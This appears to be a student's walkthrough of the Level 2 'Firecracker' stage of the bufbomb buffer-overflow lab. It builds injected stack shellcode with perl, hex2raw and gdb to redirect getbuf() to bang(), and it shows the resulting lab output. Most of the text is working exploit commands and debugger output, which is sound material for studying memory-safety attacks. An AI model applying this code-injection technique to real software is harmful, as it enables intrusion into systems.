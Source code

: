 Level 2: Firecracker
====================

Goal = inject machine instructions onto the stack, have those instructions execute and then redirect function getbuf() to function bang()

To find the address of function ```bang()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find bang():

```
08049012 <bang>:
 8049012:       55                      push   %ebp
 8049013:       89 e5                   mov    %esp,%ebp
 8049015:       83 ec 18                sub    $0x18,%esp
 8049018:       a1 ec c1 04 08          mov    0x804c1ec,%eax <=== 1)
 804901d:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax <=== 2)
 8049023:       75 1e                   jne    8049043 <bang+0x31>
 8049025:       89 44 24 04             mov    %eax,0x4(%esp)
 8049029:       c7 04 24 58 a1 04 08    movl   $0x804a158,(%esp)
 8049030:       e8 ab f8 ff ff          call   80488e0 <printf@plt>
 8049035:       c7 04 24 02 00 00 00    movl   $0x2,(%esp)
 804903c:       e8 93 00 00 00          call   80490d4 <validate>
 8049041:       eb 10                   jmp    8049053 <bang+0x41>
 8049043:       89 44 24 04             mov    %eax,0x4(%esp)
 8049047:       c7 04 24 69 9f 04 08    movl   $0x8049f69,(%esp)
 804904e:       e8 8d f8 ff ff          call   80488e0 <printf@plt>
 8049053:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 804905a:       e8 31 f9 ff ff          call   8048990 <exit@plt>

 ```
<b>write down the address of bang(). Mine is 08049012</b>
Now type:

```
unix> perl -e 'print "AA "x44, "12 90 04 08 " ' > hexlevel2
unix> ./hex2raw < hexlevel2 > raw
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu < raw
```

Now use the gdb examine command ```x``` to locate the address and the value held for the variable ```global_value``` by typing:

```
(gdb) x/x &global_value
```

Gives you:

```
(gdb) x/x &global_value
0x804c1ec <global_value>:       0x00000000
```

Now break bang() and show disassembly:
```
(gdb) break bang
(gdb) cont
(gdb) disas
```

Gives you:
```
(gdb) disas
Dump of assembler code for function bang:
   0x08049012 <+0>:     push   %ebp
   0x08049013 <+1>:     mov    %esp,%ebp
   0x08049015 <+3>:     sub    $0x18,%esp
=> 0x08049018 <+6>:     mov    0x804c1ec,%eax
   0x0804901d <+11>:    cmp    0x804c1e4,%eax
   0x08049023 <+17>:    jne    0x8049043 <bang+49>
   0x08049025 <+19>:    mov    %eax,0x4(%esp)
   0x08049029 <+23>:    movl   $0x804a158,(%esp)
   0x08049030 <+30>:    call   0x80488e0 <printf@plt>
   0x08049035 <+35>:    movl   $0x2,(%esp)
   0x0804903c <+42>:    call   0x80490d4 <validate>
   0x08049041 <+47>:    jmp    0x8049053 <bang+65>
   0x08049043 <+49>:    mov    %eax,0x4(%esp)
   0x08049047 <+53>:    movl   $0x8049f69,(%esp)
   0x0804904e <+60>:    call   0x80488e0 <printf@plt>
   0x08049053 <+65>:    movl   $0x0,(%esp)
   0x0804905a <+72>:    call   0x8048990 <exit@plt>
End of assembler dump.
```
At bang+6 a mov instruction stores the value held at 0x804c1ec into %eax. This is then compared to the value at address 0x804c1e4 which is the location of the cookie!

More specific goal = 1) replace the value at 0x804c1ec with my cookie as the little endian id. 2) push the return address to bang() onto the stack 3) return

Since we now know the address of the global variable cookie we can create an assembly instruction to mov my cookie value into the location of global_value. 

This can be done by writing the assembly instructions into a .s file, compiling to a binary .o file. Disassemblying the binary file to get the hex that will be used for the exploit string.

From level 1 calculations get your little endian id. 
              My id: 0x 2d 8c c7 0c <=== USE THIS ONE ON FIRST TRY
My little endian id: 0x 0c c7 8c 2d <=== USE THIS ON SECOND TRY

<b>NOTE try starting here again with little endian id if regular id doesn't work</b>

First create the file assemblylevel2.s with the following contents:
```
movl $0x2d8cc70c, 0x0804c1ec 
pushl $0x08049012            
ret                         
```

then type:
```
unix> gcc -m32 -c assemblylevel2.s
unix> objdump -d assemblylevel2.o > assemblylevel2.d
unix> cat assemblylevel2.d
```

Gives you:
```
assemblylevel2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   c7 05 ec c1 04 08 0c    movl   $0x2d8cc70c,0x804c1ec
   7:   c7 8c 2d
   a:   68 12 90 04 08          push   $0x8049012
   f:   c3                      ret
```

Now that I have the hex representation of the assembly to manipulate the bufbomb binary I can put this into the buffer overflow so that it is pushed onto the stack and is executed.

But before I correctly push instructions onto the stack I first have to tell the binary bufbomb where to look for my new instructions. 

Let's first just add the new assembly instructions to see where they are on the stack by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "EE "x4, "c7 05 ec c1 04 08 0c c7 8c 2d 68 12 90 04 08 c3" ' > hexlevel2_2
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_2 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) i r
```

Gives you:
```
(gdb) i r
eax            0x55683328       1432892200
ecx            0xa      10
edx            0xb53334 11875124
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c15        0x8048c15 <getbuf+17>
eflags         0x212    [ AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99

```

Now let's take a look inside $esp with:
```x/20x $esp```

Gives you 20 words to examine from $esp:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x009f4b36      0x00b5232c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0xeeeeeeee
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0xc70c0804      0x12682d8c      0xc3080490
```

The address in %ebp is at 0x55683350 which means it is overwritten by 0xdddddddd. The return address of %ebp is also overwritten by 0xeeeeeeee. We can also see our assembly instructions are now on the stack.

In order for the exploit to work, the buffer overflow will have to push the return address of the beginning of the exploit. Looking at the stack shows where the beginning of the exploit starts (0xeeeeeeee). So just replace 0xeeeeeeee with the little endian hex representation of the address where we begin our string exploit at 0x55683358.

0x 55 68 33 58 # is the original order
0x 58 33 68 55 # is the little endian order

Create the new input file by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "58 33 68 55 ", "c7 05 ec c1 04 08 0c c7 8c 2d 68 12 90 04 08 c3" ' > hexlevel2_3
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_3 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) x/20x $esp
```

Gives you:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x0098db36      0x00aeb32c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0x55683358
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0x8c2d0804      0x12680cc7      0xc3080490
```

Then type ```cont```

Gives you:
```
Userid: quinnliu
Cookie: 0x2d8cc70c
Type string:Bang!: You set global_value to 0x2d8cc70c
VALID
NICE JOB!

Program exited normally.
```



